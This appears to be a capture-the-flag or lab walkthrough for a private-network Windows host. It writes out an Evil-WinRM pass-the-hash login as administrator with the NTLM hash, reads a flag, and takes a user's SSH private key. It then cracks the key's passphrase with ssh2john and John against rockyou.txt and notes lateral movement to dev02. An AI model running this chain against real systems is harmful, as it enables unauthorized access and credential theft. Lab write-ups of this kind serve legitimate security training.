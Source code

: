 # 🎯 Target: 172.16.187.52

## 🛠 Service: Evil-WinRM (Remote PowerShell)

### 🔓 Initial Access

Used Evil-WinRM to access the system as `administrator`:

```bash
evil-winrm -i 172.16.187.52 -u "administrator" -H 'ed24fcb9e3b90bf35eab10161b31c0de'
```

Successful login output:

```
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
```

### 🔍 Enumeration

Navigated to the desktop and retrieved the user flag:

```powershell
cd ..
cd desktop
dir
type proof.txt
```

**Flag:**

```
7460561d09b77ebe4e7cd57d9dd4cc5e
```

---

### 👤 Additional User Enumeration: `nicole.lewis`

```powershell
*Evil-WinRM* PS C:\Users\nicole.lewis> ls
```

Notable contents:

- `.ssh` directory found under user profile.
    

#### 🔐 Sensitive File Discovery

```powershell
*Evil-WinRM* PS C:\Users\nicole.lewis\.ssh> type nlewis
```

Discovered encrypted RSA private key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,EFD2C336ED08BC8A3A05DFD37538D5F5
...
-----END RSA PRIVATE KEY-----
```

Also found public key:

```text
ssh-rsa AAAAB3Nza... dev@dev02
```

---

## 🚀 Privilege Escalation - SSH Private Key Cracking

Converted the encrypted private key into hash format using `ssh2john`:

```bash
ssh2john nlewis > nl.hash
```

Verified the hash:

```bash
cat nl.hash
```

Cracked with John and rockyou.txt wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt nl.hash
```

**Password:**

```
Password1 (for user: nlewis)
```

---

### 🧠 Post-Exploitation

Using cracked credentials and authorized public key:

- `nicole.lewis` can SSH into `dev02` as `dev` using the cracked password-protected key.
    

This gives lateral movement capability to another system.